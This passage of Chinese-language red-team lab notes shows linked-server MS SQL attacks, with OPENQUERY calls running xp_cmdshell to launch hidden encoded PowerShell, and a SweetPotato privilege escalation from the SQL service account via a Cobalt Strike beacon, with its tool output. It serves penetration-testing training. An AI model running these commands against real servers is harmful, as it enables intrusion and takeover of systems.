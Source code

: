 SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''' )
```

在```sql01.zeropointsecurity.local```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select * from openquery("sql01.zeropointsecurity.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''' '')' )
```

# MS SQL Privilege Escalation

因为当前mssql实例是以```NT Service\MSSQL$SQLEXPRESS```用户身份运行的，此用户有```SeImpersonatePrivilege```能力，这个能力众所周知可以使用各种土豆来提权。

```
beacon> getuid
[*] You are NT Service\MSSQL$SQLEXPRESS

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeManageVolumePrivilege:  SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED

[*] Completed collection in 0.01 seconds
```

这里使用[SweetPotato](https://github.com/CCob/SweetPotato)提权

```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Debug\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc SQBFAF[...snip...]ApAA=="

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering notification on evil PIPE \\sql01/pipe/7365ffd9-7808-4a0d-ab47-45850a41d7ed
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
